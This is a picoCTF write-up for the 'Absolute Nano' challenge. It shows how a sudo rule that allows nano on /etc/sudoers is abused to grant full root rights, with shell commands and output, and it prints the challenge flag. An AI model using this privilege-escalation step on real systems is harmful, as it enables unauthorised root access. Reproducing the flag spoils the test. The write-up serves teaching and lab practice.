

# Absolute Nano



After we connect to the instance, we can see that we can use `nano` with sudo privileges and can edit `/etc/sudoers`.

```bash
ctf-player@challenge:~$ sudo -l
Matching Defaults entries for ctf-player on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ctf-player may run the following commands on the challenge:
    (ALL) NOPASSWD: /bin/nano /etc/sudoers
```

Searching online, we can find `/etc/sudoers`, which governs how sudo works, including who has what privileges. Read more [here](https://www.sudo.ws/docs/man/1.9.1/sudoers.man/).

Anyway, we can try to nano the flag directly, and it failed without a doubt.

```bash
ctf-player@challenge:~$ sudo nano /root/flag.txt
[sudo] password for ctf-player: 
Sorry, user ctf-player is not allowed to execute '/usr/bin/nano /root/flag.txt' as root on challenge.
```

So now we can try to edit the `/etc/sudoers` file.


We can see that `ctf-player` has only `nano` and `/etc/sudoers`. We can follow the above and grant ourselves every privilege by replacing the line with `ctf-player ALL=(ALL:ALL) ALL`.

To test whether it works after saving, we can try to read it, and it works

```bash
ctf-player@challenge:~$ sudo cat /etc/sudoers
[sudo] password for ctf-player: 
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults        env_reset
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root    ALL=(ALL:ALL) ALL

# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo   ALL=(ALL:ALL) ALL

# See sudoers(5) for more information on "#include" directives:

#includedir /etc/sudoers.d
ctf-player ALL=(ALL:ALL) ALL

```

With that, we can log in as root and cat the flag.

```bash
ctf-player@challenge:~$ sudo su
[sudo] password for ctf-player: 
root@challenge:/home/ctf-player# ls
flag.txt
root@challenge:/home/ctf-player# cat flag.txt 
picoCTF{n4n0_411_7h3_w4y_dd490b88}
```

Flag: `picoCTF{n4n0_411_7h3_w4y_dd490b88}`
